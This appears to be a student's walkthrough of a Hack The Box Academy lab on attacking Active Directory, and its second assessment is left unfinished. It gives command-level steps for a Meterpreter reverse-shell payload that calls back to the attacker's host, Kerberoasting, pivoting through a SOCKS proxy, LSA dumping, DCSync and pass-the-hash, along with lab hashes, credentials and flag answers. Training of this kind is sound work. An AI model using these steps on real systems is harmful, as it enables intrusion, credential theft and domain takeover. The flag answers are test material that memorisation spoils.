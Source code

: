 ```table-of-contents
```
# AD Enum & Attacks - Assessment 1

## Given info
A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.


## Steps

### Finding the admin's desktop flag
- nmap scan just to check what ports are open on the host
- Look around the web server through the web shell in order t o find the admin desktop directory.


### Elevating access to the reverse shell from the web shell
        
- Use msfconsole to create a custom payload
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.9 lport=4444 -f exe > shell.exe`
	- Using netcat will show the connection, but you can't interact with it, so we use metasploit for a better shell
	- use exploit/multi/handler in order to listen in
	- upload the exploit to the web shell, and run it


### Getting a user's hash
        
- We don't have a password to the local host, so we have to get a password hash and crack it
- Transfer PowerView.ps1 to the target machine and import it into powershell
- get user svn for the sql user using the following:
	- `Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat | out-File .\\\\hash.txt`
- copy the hash and use hashcat to break it


### Getting into MS01
- Running `ipconfig` shows you a second network adapter, meaning we’ll need to pivot to the internal network        
- Go to the meterpreter shell, and run the following    
	- `run autoroute -s 172.16.6.0/24`
- Then run a tcp portscan on the internal network to find hosts. Focus on 139,445 (SMB)as they are common windows ports

```bash
bg
use auxiliary/scanner/portscan/tcp
set rhosts 172.16.6.0/24
set PORTS 139,445
set threads 50
run
```

- setup SOCKS proxy and run it `use auxilliary/server/socks_proxy`
- update `/etc/proxychains.conf` to include the socks5 proxy for the local machine
- Use proxychains to attack the internal network
- `sudo proxychains cme smb 172.16.6.50 -u svc_sql -p lucky7` where we use the creds we got from the kerberoasting hash
- Authenticate to the smb service
	- `sudo proxychains cme smb 172.16.6.50 -u svc_sql -p lucky7`
- Use CME again to find the file called flag.txt
	- `sudo proxychains cme smb 172.16.6.50 -u svc_sql -p lucky7 -x "type C:\\users\\administrator\\desktop\\flag.txt"`


### Dumping Passwords
- `proxychains crackmapexec smb 172.16.6.50 -u svc_sql -p lucky7 --lsa`


### Attack Vectors
        
- Use powerview to evaluate attack vectors

```powershell
PS C:\\> Import-Module .\\PowerView.ps1

Import-Module .\\PowerView.ps1
PS C:\\> $sid = Convert-NameToSid tpetty
$sid = Convert-NameToSid tpetty
PS C:\\> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-2270287766-1317258649-2146029398-4607
ObjectAceType         : DS-Replication-Get-Changes-All
```


### Domain Takeover
        
- DCSync Attack:

```powershell
$ proxychains secretsdump.py INLANEFREIGHT/tpetty@172.16.6.3 -just-dc-user administrator

ProxyChains-3.1 (<http://proxychains.sf.net>)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:445-<><>-OK
[*] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:49667-<><>-OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:a76102a5617bffb1ea84ba0052767992823fd414697e81151f7de21bb41b1857
Administrator:aes128-cts-hmac-sha1-96:69e27df2550c5c270eca1d8ce5c46230
Administrator:des-cbc-md5:c2d9c892f2e6f2dc
[*] Cleaning up... 
```

            
- Use `wmiexec.py` as `administrator` and pass the hash `aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0` to be able to connect to DC01

```powershell
$ proxychains wmiexec.py administrator@172.16.6.3 -hashes aad3b435b51404eeaad3b435b51404ee:27dedb1dab4d8545c6e1c66fba077da0

ProxyChains-3.1 (<http://proxychains.sf.net>)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.6.3:49774-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\\>hostname
DC01

C:\\>type c:\\users\\administrator\\desktop\\flag.txt
r3plicat1on_m@st3r!
```




## Creds
        
1. user: svc_sql, pass: lucky7


## Flags
1. `JusT_g3tt1ng_st@rt3d!`
2. `spn$_r0ast1ng_on_@n_0p3n_f1re`
3. `tpetty:Sup3rS3cur3D0m@inU2eR`
4. `r3plicat1on_m@st3r!`



# AD Enum & Attacks - Assessment 2**


## Given
Our client Inlanefreight has contracted us again to perform a full-scope internal penetration test. The client is looking to find and remediate as many flaws as possible before going through a merger & acquisition process. The new CISO is particularly worried about more nuanced AD security flaws that may have gone unnoticed during previous penetration tests. The client is not concerned about stealth/evasive tactics and has also provided us with a Parrot Linux VM within the internal network to get the best possible coverage of all angles of the network and the Active Directory environment. Connect to the internal attack host via SSH (you can also connect to it using `xfreerdp` as shown in the beginning of this module) and begin looking for a foothold into the domain. Once you have a foothold, enumerate the domain and look for flaws that can be utilized to move laterally, escalate privileges, and achieve domain compromise.Apply what you learned in this module to compromise the domain and answer the questions below to complete part II of the skills assessment.
1. `SSH to with user "htb-student" and password "HTB_@cademy_stdnt!"`


## Steps
1. ssh into the machine
2. `ip a` to see if the machine is connected to any other networks: `ens224` is connected to an internal network `172.16.7.240/23`
3. Try using responder to harvest hashes


## Creds


## Flags

